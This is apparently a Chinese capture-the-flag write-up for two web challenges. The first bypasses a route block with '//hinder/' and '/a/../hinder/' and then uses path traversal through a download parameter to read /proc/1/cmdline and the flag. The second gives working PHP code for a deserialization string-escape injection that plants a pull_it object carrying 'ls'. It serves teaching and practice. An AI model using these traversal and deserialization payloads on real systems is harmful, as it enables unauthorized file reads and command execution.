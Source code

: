 自己参赛的，但是牢底坐穿。

## hinder
就是说当时一点想法也没有，上来直接permission denied...
没权限可能是由于路由被拦截，因此只要构造不符合条件的路由即可：
```
//hinder/
```
如果存在目录穿越则还可以
```
/a/../hinder/
```
然后在返回网页的注释处发现hint`/download.action?filename=hint`，任意文件读取。

这里直接拼在hinder/后面，`/a/../hinder/download.action?filename=../../../../../../../proc/1/cmdline/`，发现`/bin/sh/run.sh`。
但是读`/a/../hinder/download.action?filename=../../../../../../../bin/sh/run.sh`读不出，
直接读``/a/../hinder/download.action?filename=../../../../../../../run.sh`发现flag路径，读取即可。

## unserize
当时盲猜一手源码www.zip，真下载到了。当时感觉函数aaaa<->bbbbbb感觉是php反序列化字符串逃逸，但是不知道怎么利用。当时的想法是，利用a和b让push_it的session反序列化变成pull_it。
但是还是too naive，怎么可能，totally wrong。

反序列化构造payload时一切属性都可以设置为public。利用function中两个过滤函数中任意一个都行，root参数传入一堆a/b，通过过滤器后造成长度变短/变长。pwd传入构造好的反序列化字符串。

做个测试：
```
<?php
function b($data) {
	return str_replace('aaaa', 'bbbbbb', $data);
}

function a($data) {
	return str_replace('bbbbbb', 'aaaa', $data);
}
class pull_it {
	public $x;
}
class push_it {
	public $root;
	public $pwd;
}

$a = new push_it();
$a->root = "bbbbbbbbbb";
$a->pwd = "wwwwwwwwww";
echo(serialize($a));
echo("\n\n");  
// O:7:"push_it":2:{s:4:"root";s:10:"bbbbbbbbbb";s:3:"pwd";s:10:"wwwwwwwwww";}

$a->pwd = new pull_it();
$a->pwd->x = "xxxxxxxx";
echo(serialize($a));    
echo("\n\n");  
// O:7:"push_it":2:{s:4:"root";s:10:"bbbbbbbbbb";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:8:"xxxxxxxx";}}

$s = 'O:7:"push_it":2:{s:4:"root";s:10:"bbbbbbbbbb";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:8:"xxxxxxxx";}}';
echo(unserialize($s)->pwd->x);
echo("\n\n");  
// xxxxxxxx


?>
```

用a过滤器，每6个bbbbbb会吞掉2个字符变成4个aaaa，要把后面的`";s:3:"pwd";s:xx:`也吞掉，总共吞17个字符，由于不是偶数，因此再多吞冒号后的一个引号，总共吞18个字符，
需要9*6=54个b，pwd用于构造pull_it的payload，具体如下：
```
function a($data) {
	return str_replace('bbbbbb', 'aaaa', $data);
}
class pull_it {
	public $x;
}
class push_it {
	public $root;
	public $pwd;
}

$aa = new push_it();
$aa->root = "bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";
$aa->pwd = '";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}}';
echo(a(serialize($aa)));    
echo("\n\n"); 
// O:7:"push_it":2:{s:4:"root";s:54:"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:48:"";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}}";}

$s = 'O:7:"push_it":2:{s:4:"root";s:54:"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:48:"";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}}";}';
var_dump(unserialize($s));
// object(push_it)#2 (2) {
//   ["root"]=>
//   string(54) "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:48:""
//   ["pwd"]=>
//   object(pull_it)#4 (1) {
//     ["x"]=>
//     string(2) "ls"
//   }
// }


?>
```
